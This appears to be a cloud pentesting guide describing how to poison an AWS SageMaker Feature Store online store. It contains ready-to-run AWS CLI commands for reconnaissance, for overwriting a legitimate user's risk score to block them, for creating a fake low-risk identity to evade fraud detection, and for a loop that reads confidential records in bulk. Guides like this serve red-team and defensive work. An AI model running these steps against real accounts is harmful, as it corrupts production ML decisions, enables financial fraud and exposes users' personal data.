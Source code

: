 # SageMaker Feature Store online store poisoning

Abuse `sagemaker:PutRecord` on a Feature Group with OnlineStore enabled to overwrite live feature values consumed by online inference. Combined with `sagemaker:GetRecord`, an attacker can read sensitive features. This does not require access to models or endpoints.

## Requirements
- Permissions: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Target: Feature Group with OnlineStore enabled (typically backing real-time inference)
- Complexity: **LOW** - Simple AWS CLI commands, no model manipulation required

## Steps

### Reconnaissance

1) List Feature Groups with OnlineStore enabled
```bash
REGION=${REGION:-us-east-1}
aws sagemaker list-feature-groups \
  --region $REGION \
  --query "FeatureGroupSummaries[?OnlineStoreConfig!=null].[FeatureGroupName,CreationTime]" \
  --output table
```

2) Describe a target Feature Group to understand its schema
```bash
FG=<feature-group-name>
aws sagemaker describe-feature-group \
  --region $REGION \
  --feature-group-name "$FG"
```

Note the `RecordIdentifierFeatureName`, `EventTimeFeatureName`, and all feature definitions. These are required for crafting valid records.

### Attack Scenario 1: Data Poisoning (Overwrite Existing Records)

1) Read the current legitimate record
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-001
```

2) Poison the record with malicious values using inline `--record` parameter
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Example: Change risk_score from 0.15 to 0.99 to block a legitimate user
aws sagemaker-featurestore-runtime put-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record "[
    {\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-001\"},
    {\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
    {\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.99\"},
    {\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"125.50\"},
    {\"FeatureName\": \"account_status\", \"ValueAsString\": \"POISONED\"}
  ]" \
  --target-stores OnlineStore
```

3) Verify the poisoned data
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-001
```

**Impact**: ML models consuming this feature will now see `risk_score=0.99` for a legitimate user, potentially blocking their transactions or services.

### Attack Scenario 2: Malicious Data Injection (Create Fraudulent Records)

Inject completely new records with manipulated features to evade security controls:

```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Create fake user with artificially low risk to perform fraudulent transactions
aws sagemaker-featurestore-runtime put-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record "[
    {\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-999\"},
    {\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
    {\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.01\"},
    {\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"999999.99\"},
    {\"FeatureName\": \"account_status\", \"ValueAsString\": \"approved\"}
  ]" \
  --target-stores OnlineStore
```

Verify the injection:
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-999
```

**Impact**: Attacker creates a fake identity with low risk score (0.01) that can perform high-value fraudulent transactions without triggering fraud detection.

### Attack Scenario 3: Sensitive Data Exfiltration

Read multiple records to extract confidential features and profile model behavior:

```bash
# Exfiltrate data for known users
for USER_ID in user-001 user-002 user-003 user-999; do
  echo "Exfiltrating data for ${USER_ID}:"
  aws sagemaker-featurestore-runtime get-record \
    --region $REGION \
    --feature-group-name "$FG" \
    --record-identifier-value-as-string ${USER_ID}
done
```

**Impact**: Confidential features (risk scores, transaction patterns, personal data) exposed to attacker.

### Testing/Demo Feature Group Creation (Optional)

If you need to create a test Feature Group:

```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
  ACC=$(aws sts get-caller-identity --query Account --output text)
  FG=test-fg-$ACC-$(date +%s)
  ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)
  
  aws sagemaker create-feature-group \
    --region $REGION \
    --feature-group-name "$FG" \
    --record-identifier-feature-name entity_id \
    --event-time-feature-name event_time \
    --feature-definitions "[
      {\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},
      {\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},
      {\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"},
      {\"FeatureName\":\"transaction_amount\",\"FeatureType\":\"Fractional\"},
      {\"FeatureName\":\"account_status\",\"FeatureType\":\"String\"}
    ]" \
    --online-store-config "{\"EnableOnlineStore\":true}" \
    --role-arn "$ROLE_ARN"
  
  echo "Waiting for feature group to be in Created state..."
  for i in $(seq 1 40); do
    ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
    echo "$ST"; [ "$ST" = "Created" ] && break; sleep 15
  done
fi

echo "Feature Group ready: $FG"
```

## References
- [AWS SageMaker Feature Store Documentation](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store.html)
- [Feature Store Security Best Practices](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store-security.html)

